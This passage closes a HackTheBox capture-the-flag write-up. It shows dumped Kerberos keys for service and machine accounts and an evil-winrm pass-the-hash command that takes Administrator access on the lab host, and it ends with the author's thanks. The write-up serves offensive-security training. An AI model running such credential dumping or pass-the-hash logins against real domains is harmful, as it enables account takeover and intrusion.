 ```
svc_ldap:aes256-cts-hmac-sha1-96:3773526dd267f73ee80d3df0af96202544bd2593459fdccb4452eee7c70f3b8a
svc_ldap:aes128-cts-hmac-sha1-96:08da69b159e5209b9635961c6c587a96
svc_ldap:des-cbc-md5:01a8984920866862
AUTHORITY$:aes256-cts-hmac-sha1-96:80a2fd700c1111656e3f24e7d87cba3cc19a18e4fa1f7cc9593a14355a4350c1
AUTHORITY$:aes128-cts-hmac-sha1-96:a334be25cce6a0cec0040a75162872a9
AUTHORITY$:des-cbc-md5:dfef3b2c80bab95e
[*] Cleaning up...
```

We therefore have the NTLM hash of the administrator we can do passthehash with evil-winrm for example to connect with the user Administrator: `evil-winrm -u "Administrator" -H '6961f422924da90a6928197429eea4ed' -i "10.10.11.222"`

and WE GOT ROOT ! Let's get the FLAG and finish his box.. 

Honestly, this a great box coming from the well know HackTheBox platforme, as usual. 

Thanks to them for they amazing work !



